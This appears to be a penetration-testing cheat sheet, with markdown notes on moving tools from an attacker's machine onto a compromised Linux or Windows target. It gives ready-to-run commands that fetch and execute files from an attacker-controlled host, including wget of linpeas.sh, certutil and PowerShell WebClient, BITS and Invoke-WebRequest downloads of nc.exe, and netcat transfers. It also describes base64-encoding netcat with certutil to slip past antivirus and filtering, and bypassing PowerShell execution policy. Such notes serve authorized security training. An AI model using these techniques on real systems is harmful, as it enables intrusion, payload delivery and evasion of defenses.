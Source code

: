### Transfering Files from your Attack Box to the Target
#### Netcat File Transfer
- Step 1
- Create a file on the target box in the /tmp directory
```
touch file.txt
```
- Set up the listener and direct STDOUT into the new file
```
nc -nlvp 1234 > file.txt
```
-Send the file
```
nc [target box ip] 1234 < file-to-be-transfered.txt
```

#### Python HTTP Server File Transfer
- Start the Python Server in the directory where the file is located that you want to transfer
- Use the ip address assigned to your box, if there is a vpn involved use the vpn address

```
python3 -m http.server
```
- Above is for python3
```
python -m SimpleHTTPServer 8000
```
- Above is for python
- You can optionally specify a port that you want the server to run on (it defaults to 8000)
```
python3 -m http.server 80
```
- Wget the file from the target box
```
wget http://172.16.6.1:8000/linpeas.sh
```
- Change permissions
```
chmod +x linpeas.sh
```
- Run the transfered file
```
./linpeas.sh
```

#### Secure Copy Protocol
- SCP a file from your attack box to a target box
```
scp /home/kali/Documents/linpeas.sh user@10.10.10.100:/tmp
```
- This command copies the file linpeas.sh to user on the target box and places it in the /tmp directory.
- SCP a file from your attack box while on the command line of a target box and place it in your present working directory.
```
scp jack@172.16.6.1:/home/kali/Documents/linpeas.sh .
```
### Windows Specific File Transfer
#### CertUtil.exe
- Windows has a built-in command line program called CertUtil.exe which is installed as part of Certificate Services and can be used to manage certificates in Windows.
- CertUtil is also known as living off land LOL binary which is a trusted preinstalled system tool.
- It can even bypass security features by base64 encoding the malware.
````
certutil -urlcache -split -f [url] [filename.extension]
certutil -urlcache -f [url] [filename.extension] [filename.extension]
````
- `-urlcache` Displays or deletes URL cache entries
- `-f` Forces fetching a specific URL and updating the cache
- `-split` Split embedded ASN.1 elements, and saves files on disk
- Using the encoding may help bypass security controls in certutil.  
- Using the `-decode` option we can download a Base-64 encoded malicious executable such as a text file and decode the executable to disk.  
- This can bypass antivirus, edge devices and filtering.  
- First we need to base64 encode the netcat executable.
````
certutil.exe -encode [inputfilename] [encoded output filename]
````
- To verify that the nc.txt file contains text, we can run the following command to print the first 10 lines to the terminal:
````
powershell -command “Get-Content nc.txt -Head 10”
````
- Now we have to transfer the text file to the target and decode it back to an executable.
````
certutil.exe -urlcache -split -f “http://[attack box ip]/nc.txt” nc.txt
````
- And the following command decodes the base64
````
certutil.exe -decode nc.txt nc.exe
````
#### Powershell downloads:System.Net.WebClient
- First example uses .NET class System.Net.WebClient.
- The following commands create a Powershell script on the remote Windows machine that can be used to download the file from the attack box:
````
echo $webclient = New-Object System.Net.WebClient > httpdownload.ps1
echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1
````
- Note that you have to insert the download link and filename in the command on the last line and replace all the bold with the URL and the filename.
- Once verified that the PS script is created we can execute with:
````
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File httpdownload.ps1
````
- Alternatively we can also execute the command from a regular command line in Windows powershell to download files without creating a script
````
powershell -c "(new-object System.Net.WebClient).DownloadFile('[Download URL]','[File Name]')"
````
- The -c option executes the command provided within the double quotes with Powershell.
````
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://172.16.3.1/nc.exe','nc.exe')"
````
- The default execution policy is ‘Restricted’ which means the system will not run Powershell scripts.
- With the following powershell command we can get the current execution policy:
````
Get-ExecutionPolicy
````
- We can now set the policy to ‘Unrestricted’:
````
Set-ExecutionPolicy Unrestricted
````
#### Powershell Downloads: Start-BitsTransfer
- Another way to download files with Powershell is by using the Background Intelligent Transfer Service (BITS).
- The Start-BitsTransfer cmdlet creates a BITS transfer job to transfer one or more files between a client computer and a server.
- BITS has to be enabled on the target machine in order for it to work.
- The following command will download nc.exe from a remote web server to the C drive:
````
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[attack box ip]/nc.exe -Destination C:\
````
#### Powershell Downloads: Invoke-WebRequest
- The Invoke-WebRequest cmdlet is simple and easy to use and is available in Powershell version 3.0 and higher.
- Downloading large files with this method may cause memory issues.  
- Recommended to use the System.Net.Web.Client method for transferring large files.
````
powershell Invoke-WebRequest -Uri http://[ip attack box]/nc.exe -OutFile C:\nc.exe
````
- For this cmdlet to work the target host needs to have at least Powershell 3.0
- You can check the version of Powershell by using the following command 
````
powershell $PSVersionTable.PsVersion
````
























































